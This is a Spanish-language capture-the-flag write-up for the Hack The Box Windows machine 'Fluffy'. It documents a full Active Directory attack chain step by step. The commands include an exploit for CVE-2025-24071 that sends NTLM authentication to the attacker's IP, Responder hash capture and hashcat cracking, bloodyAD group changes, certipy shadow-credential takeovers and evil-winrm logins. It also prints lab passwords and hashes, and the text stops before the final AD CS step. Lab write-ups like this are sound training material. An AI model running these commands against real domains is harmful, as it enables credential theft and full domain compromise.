___
Tags: #Fácil #HTB
___
# Fluffy

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 23/08/2026 <br>
**- Enlace:** [Fluffy](https://app.hackthebox.com/machines/Fluffy)

## Usuarios identificados

| **Usuario**         | **Punto de Partida / Cómo se obtuvo**                                                                                            | **Permisos / Grupos Clave**                                                            | **Impacto y Rol en la Escalada de Privilegios**                                                                                                                                                       |
| ------------------- | -------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **`j.fleischman`**  | Credenciales iniciales proporcionadas por la máquina (`j.fleischman / J0elTHEM4n1990!`).                                         | Usuario de dominio estándar. Acceso al recurso compartido `IT`.                        | Permitió descubrir archivos de configuración y la guía de actualización que advertía sobre vulnerabilidades, además de alojar el archivo malicioso `exploit.zip`.                                     |
| **`p.agila`**       | Capturado mediante Responder y `exploit.zip` aprovechando una vulnerabilidad de biblioteca (CVE-2025-24071).                     | Pertenece al grupo `SERVICE ACCOUNT MANAGERS`.                                         | Poseía un permiso de control total (`GenericAll`) sobre el grupo `SERVICE ACCOUNTS`, lo que le permitió agregarse a dicho grupo mediante `bloodyAD`.                                                  |
| **`winrm_svc`**     | Obtenido desde `p.agila` usando `certipy-ad shadow` debido a los privilegios sobre las cuentas de servicio.                      | Pertenece a los grupos `REMOTE MANAGEMENT USERS`, `DOMAIN USERS` y `SERVICE ACCOUNTS`. | Permitió iniciar sesión mediante Evil-WinRM para capturar la primera flag (`user.txt`) y poseía los privilegios de escritura (`GenericWrite`) necesarios para modificar el UPN de `ca_svc`.           |
| **`ca_svc`**        | Obtenido desde `winrm_svc` usando `certipy-ad shadow`.                                                                           | Pertenece al grupo `CERT PUBLISHERS`.                                                  | Su pertenencia a `CERT PUBLISHERS` y la vulnerabilidad ESC16 en la Autoridad de Certificación permitieron suplantar identidades mediante la manipulación temporal de su atributo `userPrincipalName`. |
| **`Administrator`** | Obtenido tras modificar el UPN de `ca_svc` a `administrator`, solicitar un certificado con SAN arbitrario y autenticarse con él. | `Domain Admins` / `Administrators`.                                                    | Máximo privilegio en el dominio de Active Directory. Permitió extraer el hash NTLM y conectar por WinRM para leer la flag final (`root.txt`).                                                         |

## Listado de Vulnerabilidades Identificadas

A continuación se detallan las vulnerabilidades identificadas junto con su impacto y explicación, presentadas en formato de texto:

- **CVE-2025-24071 (Exposición de información / Manipulación en Explorador de archivos)**
    
    - **Explicación:** Permite que un atacante logre la suplantación de identidad o la interacción indirecta a través de la red al abusar de archivos de biblioteca manipulados (.library-ms).
        
    - **Impacto:** Facilitó que, al depositar el archivo de exploit en el recurso compartido IT y ser procesado por el sistema o usuario, la máquina cliente intentara autenticarse contra el equipo del atacante.
        
- **Robo de Hash NTLMv2 (Vector asociado a CVE-2025-24071 / CVE-2025-24996)**
    
    - **Explicación:** Consiste en forzar a un sistema operativo Windows a enviar las credenciales de red en forma de hash NTLM hacia un equipo controlado por el atacante mediante herramientas como _Responder_.
        
    - **Impacto:** Permitió capturar el hash NTLMv2 del usuario **p.agila**, el cual posteriormente fue descifrado offline mediante _hashcat_ usando diccionarios para obtener su contraseña en claro (prometheusx-303).
        
- **Mala Configuración de ACLs (GenericAll sobre Grupos de AD)**
    
    - **Explicación:** Ocurre cuando un objeto en Active Directory tiene permisos sobredimensionados sobre otros, como control total sobre grupos sensibles.
        
    - **Impacto:** El usuario **p.agila** poseía permisos de tipo GenericAll sobre el grupo SERVICE ACCOUNTS, lo que le permitió inyectarse directamente a dicho grupo utilizando _bloodyAD_ y escalar sus capacidades de control.
        
- **Abuso de Privilegios en Cuentas de Servicio y Atributos UPN (Manipulación de userPrincipalName)**
    
    - **Explicación:** Permite a un usuario con privilegios de escritura o control sobre las propiedades de otra cuenta modificar atributos críticos del Directorio Activo.
        
    - **Impacto:** El usuario **winrm_svc** modificó temporalmente el UPN de la cuenta de servicio **ca_svc** para que apuntara a administrator, logrando suplantar su identidad al solicitar certificados.
        
- **ESC16 (Vulnerabilidad en AD CS / Autoridad de Certificación)**
    
    - **Explicación:** Se manifiesta cuando la Autoridad de Certificación tiene deshabilitadas extensiones de seguridad o validaciones estrictas, permitiendo solicitar certificados con nombres alternativos de sujeto (SAN) arbitrarios.
        
    - **Impacto:** Al combinarse con el cambio de UPN previo, permitió emitir un certificado válido a nombre del Administrator del dominio (administrator.pfx), facilitando la autenticación mediante Kerberos para extraer el hash NTLM de la cuenta de máxima jerarquía.

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.232.88**

Como es común en los pentests de Windows de la vida real, iniciará el cuadro Fluffy con las credenciales para la siguiente cuenta: j.fleischman / J0elTHEM4n1990!

### Ping

```
ping -c 1 10.129.232.88
```

<p align="center">

</p>

**Su ttl es 128. Por tanto, es Windows**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.232.88
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-23 21:15:42Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-08-23T21:17:14+00:00; +7h00m06s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-23T21:17:14+00:00; +7h00m07s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-08-23T21:17:14+00:00; +7h00m06s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-08-23T21:17:14+00:00; +7h00m07s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49668/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49722/tcp open  msrpc         Microsoft Windows RPC
```

| Open port/TCP | Service       | Version                                 |
| ------------- | ------------- | --------------------------------------- |
| 53            | domain        | Simple DNS Plus                         |
| 88            | kerberos-sec  | Microsoft Windows Kerberos              |
| 139           | netbios-ssn   | Microsoft Windows netbios-ssn           |
| 389           | ldap          | Microsoft Windows Active Directory LDAP |
| 445           | microsoft-ds? | -                                       |
| 464           | kpasswd5?     | -                                       |
| 593           | ncacn_http    | Microsoft Windows RPC over HTTP 1.0     |
| 636           | ssl/ldap      | Microsoft Windows Active Directory LDAP |
| 3268          | ldap          | Microsoft Windows Active Directory LDAP |
| 3269          | ssl/ldap      | Microsoft Windows Active Directory LDAP |

### SMB 

El siguiente comando **extrae los nombres de dominio/host de la IP vía SMB y los agrega automáticamente a tu archivo `/etc/hosts`** para que puedas navegar o atacar usando sus nombres de dominio.

```
sudo netexec smb 10.129.232.88 --generate-hosts-file /etc/hosts
```

> 10.129.232.88     DC01.fluffy.htb fluffy.htb DC01

```
netexec smb ip/namedominio -u guest -p ''
```

<p align="center">

</p>

```
netexec smb ip/namedominio -u guest -p '' --shares
```

<p align="center">

</p>

Uso **smbclient** para iniciar sesión con **guest** pero no encuentro nada interesante

```
smbclient //10.129.232.88/IPC$ -U "guest%"
```

<p align="center">

</p>

A continuación probaremos las credenciales que nos da **HTB**. Tanto **smb*** como **ldap** funciona con el usuario.

```
netexec smb  DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!'

netexec ldap  DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!'
```

<p align="center">

</p>

Quiero saber cuantos usuarios hay.

```
netexec ldap DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --users
```

<p align="center">

</p>

**Listado de usuarios**

- ca_svc
- ldap_svc
- p.agila
- winrm_svc
- j.coffey
- j.fleischman

Luego quiero saber los archivos que compartidos del usuario

```
netexec smb  DC01.fluffy.htb -u j.fleischman -p 'J0elTHEM4n1990!' --shares
```

<p align="center">

</p>

Usaré **smbclient** con el usuario **j.fleischman** y empezaremos a enumerar 

```
smbclient //10.129.232.88/IT -U 'j.fleischman%J0elTHEM4n1990!'
```

<p align="center">

</p>

Descargo todo

```
prompt
mget *
```

<p align="center">

</p>

El PDF recién descargado habla sobre vulnerabilidades críticas como `CVE-2025-24996` y `CVE-2025-24071`

<p align="center">

</p>

Al final, hay una dirección de correo electrónico:

<p align="center">

</p>

## Explotación

### Obtener usuario p.agila

#### CVE-2025-24071 / CVE-2025-24054 

Para la realización del ataque lo primero que haremos es descargar este [repo](https://github.com/ThemeHackers/CVE-2025-24071)

```
git clone https://github.com/ThemeHackers/CVE-2025-24071

cd CVE-2025-24071 
```

Dentro instalamos el entorno virtual, porque tenemos que instalar el **requirement.txt**

```
python3 -m venv venv

source venv/bin/activate

pip install -r requirements.txt
```

<p align="center">

</p>

```
python3 exploit.py -i 10.10.14.188 -f empe
```

Importante en el parametro -i debe de ir **Tú IP**

<p align="center">

</p>

Antes activamos el **responder**

```
sudo responder -I tun0
```

Luego, iniciamos smb donde se encuentra el archivo **exploit.zip**

```
smbclient.py j.fleischman@DC01.fluffy.htb
J0elTHEM4n1990!

use IT

put exploit.zip
```

<p align="center">

</p>

En cuestión de un minuto o así obtenemos esto en el responder

<p align="center">

</p>

```
p.agila::FLUFFY:6ed615d4bb08ee28:940F6740ED8EAABF06D482B8FBC79DFA:010100000000000080FAF4DF2A33DD0150C85F7BC80BAB1E0000000002000800500033003400460001001E00570049004E002D003000440038004300440054005A005700460034004D0004003400570049004E002D003000440038004300440054005A005700460034004D002E0050003300340046002E004C004F00430041004C000300140050003300340046002E004C004F00430041004C000500140050003300340046002E004C004F00430041004C000700080080FAF4DF2A33DD010600040002000000080030003000000000000000010000000020000010B7DD18C75A28EA068673287E07044705DE7A92FECEA7303938D75CEC0E39A10A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380038000000000000000000
```

Lo guardo como **hashaguila**. A continuación, usaremos **hashcat** para desencriptar la pass

```
hashcat hashaguila /usr/share/wordlists/rockyou.txt
```

>prometheusx-303

#### Validación de cred

El usuario **p.aguila** es totalmente válido

```
netexec smb  DC01.fluffy.htb -u p.aguila -p 'prometheusx-303' 
```

<p align="center">

</p>

### Shell como winrm_svc

#### Enumeracion con BlooodHound

```
bloodhound-python -d 'fluffy.htb' -u 'j.fleischman' -p 'J0elTHEM4n1990!' -gc 'fluffy.htb' -dc 'DC01.fluffy.htb' -ns 10.129.232.88 -c all --zip
```

<p align="center">

</p>

> Al tener control total (`GenericAll`) sobre el grupo `SERVICE ACCOUNTS`, el usuario `P.AGILA` puede agregarse a sí mismo (o a otra cuenta de su control) a ese grupo de cuentas de servicio.

Continuando con la enumeración averiguo que el usuario **winrm_svc** es el unico usuario que forma parte del **Remote Management**

<p align="center">

</p>

Por otra parte, investigo si hay algún camino de **p.aguila** hasta **winrm_svc** y me encuentro la siguiente.

<p align="center">

</p>

#### Agregar GenericAll a un objeto

Antes tenemos que hacer unos comandos previos para que nos funcione **BloodyAD**

```
python3 -m venv venv

source venv/bin/activate

pip install .
```

Este comando hará que **p.aguila** se una al grupo de **SERVICE ACCOUNTS**

```shell
bloodyAD -d fluffy.htb --host 10.129.232.88 -u p.agila -p 'prometheusx-303' add groupMember "SERVICE ACCOUNTS" p.agila
```

<p align="center">

</p>

#### Explotando GenericWrite

**¿Qué significa `GenericWrite` sobre un usuario?** Te otorga el derecho de modificar ciertos atributos de ese objeto de usuario en Active Directory. Uno de los ataques clásicos y más potentes cuando tienes `GenericWrite` sobre un usuario es **cambiar su contraseña** directamente

**Importante** me gustaría comentar un problema que me ha ocurrido mas de una vez, al usar ese comando, no me funciona por problema de tiempo

```bash
certipy-ad shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account winrm_svc
```

<p align="center">

</p>

Por tanto, para solucionar ese problema, es mejor adaptar el comando de la siguiente manera:

```shell
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
```

<p align="center">

</p>

> 33bd09dcd697600edf6b3a7af4875767

Haremos este mismo comando pero para conseguir el usuario **ca_svc** que forma parte del grupo **Service Accounts**

```
faketime "$(ntpdate -q DC01.fluffy.htb | cut -d ' ' -f 1,2)" certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
```

<p align="center">

</p>

> ca0f4f9e9eb8a092addf53bb03fc98c8

#### Validación de cred

El usuario **winrm_svc** es válido para el winrm

```
netexec winrm  DC01.fluffy.htb -u winrm_svc -H '33bd09dcd697600edf6b3a7af4875767'
```

<p align="center">

</p>

El usuario **ca_svc** es válido para smb

```
netexec smb  DC01.fluffy.htb -u ca_svc -H 'ca0f4f9e9eb8a092addf53bb03fc98c8'
```

<p align="center">

</p>

![[Fluffysmbcasvc.png]]

#### Shell

```
evil-winrm -i 10.129.232.88 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```

<p align="center">

</p>

## Escalada de Privilegios

### Shell como administrador

#### Enumeracion

Investigando el usuario **ca_svc** me encuentro la siguiente relación. El usuario **`CA_SVC`** pertenece al grupo **`CERT PUBLISHERS`**, lo que le otorga privilegios directos sobre los Servicios de Certificación de Active Directory (AD CS). El impacto de esto es crítico, ya que comprometer esta cuenta permite abusar de la infraestructura de certificados para emitir credenciales falsas a nombre de cualquier usuario, facilitando la escalada de privilegios y el control total del dominio.

<p align="center">

</p>

Usaré este comando para saber si hay un AD CS vulnerable

```
